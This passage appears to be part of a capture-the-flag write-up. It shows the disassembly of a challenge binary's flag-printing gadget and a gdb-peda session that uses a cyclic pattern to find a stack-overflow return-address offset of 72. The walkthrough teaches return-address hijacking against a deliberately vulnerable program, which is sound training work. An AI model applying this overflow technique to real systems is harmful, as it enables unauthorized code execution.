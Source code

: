 ```
00402209 b8 00 00        MOV        EAX,0x0
...
00402245 e8 46 78        CALL       printf                            int printf(char * __format, ...)
0040224a 48 8d 3d        LEA        RDI,[s_/bin/cat_flag_004a0483]    = "/bin/cat flag"
00402251 e8 0a 76        CALL       system                            int system(char * __command)


```

So the goal seems very simple. Since PIE is disabled, we know this `0x402209` address is static. So we:

1. Stack overflow, overwrite return pointer with `0x402209`
2. Exit the main func. Get the flag.

In order to find out the offset of the return address, I use `pattern_create` in peda to create a cyclic pattern buffer. Then smash the stack and check what offset became the return address. It looks like this:

```shell
$ gdb ./reto
...

gdb-peda$ pattern_create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
gdb-peda$ r
Starting program: /root/metared4/pwn2/reto 
 ------------------------------------------------------------------------
|             Welcome to the Argentinian FLAG Store UPDATED!!!           |
|     Due to inflation problems all our prices are in American dollars   |
 ------------------------------------------------------------------------

Please login 
---Username: 
---Password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A


Hello AACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A
 ---------------------------------------------------------------------------------------------------------
|   Due to GDPR policies we are going to store this sensitive information in our new imaginary database.   |
 ---------------------------------------------------------------------------------------------------------

Now, tell me what to do: 
---[1] Check balance
---[2] Buy Argentinian Flags
---[3] exit

Select an option: 3

We hope you have enjoyed the market.

...
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004022a9 in main ()
gdb-peda$ bt
#0  0x00000000004022a9 in main ()
#1  0x4134414165414149 in ?? ()
#2  0x0000000000000000 in ?? ()
gdb-peda$ pattern_offset 0x4134414165414149
4698452060381725001 found at offset: 72
```